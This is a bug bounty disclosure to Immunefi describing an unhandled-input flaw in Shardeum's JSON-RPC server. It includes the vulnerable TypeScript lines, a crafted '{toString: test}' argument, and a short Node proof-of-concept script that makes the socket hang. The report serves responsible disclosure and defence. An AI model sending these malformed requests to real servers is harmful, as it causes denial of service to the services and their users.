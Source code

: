 
# In some instances the socket can be made to hang

Submitted on Tue Jul 23 2024 10:59:29 GMT-0400 (Atlantic Standard Time) by @Holofan for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33558

Report type: Websites and Applications

Report severity: Insight

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:
- Temporarily disabling user to access target site, such as: Locking up the victim from login, Cookie bombing, etc.

## Description
## Brief/Intro
While handling some API calls the connected socket can be made to hang which can lead to the user's socket being DOS-ed temporary

## Vulnerability Details
In the `api.ts` all of the server APIs are written in a way to handle errors so the server or socket doesn't crash or hang. However while handling the `eth_getFilterChanges` and `eth_getFilterLogs` one user argument is not being handled in a try block as can be seen here: \
https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/api.ts#L2989-L2992
```
    const filterId = args[0]
    let logs: string[] = []

    const internalFilter: Types.InternalFilter | undefined = filtersMap.get(filterId.toString())
```
https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/api.ts#L2906-L2908
```
    const filterId = args[0]

    const internalFilter: Types.InternalFilter | undefined = filtersMap.get(filterId.toString())
```
in both of those cases the `filterId` is assigned to `args[0]` on which `toString` function is called at a later point. However the `args[0]` can be given an object such as this one `{'toString':'test'}` and when the `toString` function is called the function will throw an error which is not handled and thus the socket hang and stop responding.

## Impact Details
On it's own the only impact is potential crashes if handled wrongly but if the json RPC server is used in some web app a potential malicious actor can specifically send a bad packet from user's side and thus force the socket to hang and lead to temporary DOS.

## References
https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/api.ts#L2989-L2992 \
https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/api.ts#L2906-L2908

        
## Proof of concept
## Proof of Concept
The following script will send an object which will make the socket hang
```
const jayson = require('jayson');

const client = jayson.Client.http({
  port: 8080
});

client.request('eth_getFilterChanges', [{"toString":"test"}], function(err, response) {
  if(err) throw err;
  console.log(response.result);
});
```
the fact that no response is being prompted after running the script confirms the fact that the socket has hanged.
